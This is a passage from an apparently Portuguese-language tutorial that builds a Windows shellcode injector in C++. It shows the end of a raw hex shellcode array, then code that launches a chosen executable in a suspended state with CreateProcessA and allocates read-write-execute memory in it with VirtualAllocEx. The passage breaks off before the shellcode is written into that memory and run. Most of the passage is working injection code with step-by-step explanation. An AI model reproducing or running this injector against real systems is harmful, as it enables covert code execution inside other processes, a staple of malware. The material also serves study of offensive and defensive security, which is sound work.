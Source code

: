 ```cpp
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";
```

A primeira coisa que o código da função *main* apresenta é a possibilidade de usarmos o injetor em qualquer processo. Para isso, o código abaixo apresenta a implementação que permite especificar o caminho completo até o EXE vítima através da linha de comando.

```cpp
int main(int argc, char **argv) {
    if (argc < 2) {
        std::cout << "USAGE: " << argv[0] << " <path\\to\\process>" << std::endl;
        return 1;
    }
```

O seguinte trecho irá utilizar o path para o EXE especificado em `argv[1]` como primeiro argumento da função [CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa). Criaremos variáveis locais tendo como tipo as estruturas `STARTUPINFOA` (além da sua inicialização) e `PROCESS_INFORMATION`, para que a criação do processo tenha sucesso. Além disso, é importante que a flag de criação seja `CREATE_SUSPENDED`, para que a thread principal não seja executada imediatamente, gerando uma oportunidade para efetuarmos a injeção.

```cpp
    STARTUPINFOA startupInfo = {sizeof(STARTUPINFOA)};
    PROCESS_INFORMATION procInfo;

    std::cout << "[+] Creating process " << argv[1] << "..." << std::endl;
    BOOL status = CreateProcessA(argv[1], NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &startupInfo, &procInfo);
    if (!status) {
        std::cerr << "Error on CreateProcess: " << GetLastError() << std::endl;
        return 1;
    }
		std::cout << "   \\_ [+] PID: " << procInfo.dwProcessId << std::endl;
```

Após a criação bem sucedida, devemos alocar um espaço de memória RWX no processo remoto. Para isso, podemos utilizar a função [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex), repassando o handle para o processo, um endereço preferencial, tamanho, tipo de alocação e de proteção das páginas de memória.

No injetor, o handle para o processo vítima está em `procInfo.hProcess`. Definiremos o tamanho da alocação para o tamanho do shellcode, além soma das constantes `MEM_RESERVE` e `MEM_COMMIT` para o tipo de alocação. Para definirmos as páginas de memória alocadas como RWX, iremos utilizar a contante `PAGE_EXECUTE_READWRITE`.

```cpp
    std::cout << "[+] Allocating memory in remote process..." << std::endl;
    LPVOID shellcodeRemoteLocation = VirtualAllocEx(procInfo.hProcess, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!shellcodeRemoteLocation) {
        std::cerr << "Error on VirtualAllocEx: " << GetLastError() << std::endl;
        return 1;
    }
    std::cout << "   \\_ [+] Allocated " << sizeof(shellcode) << " bytes at region " << std::hex << " 0x" << shellcodeRemoteLocation << std::endl;
```

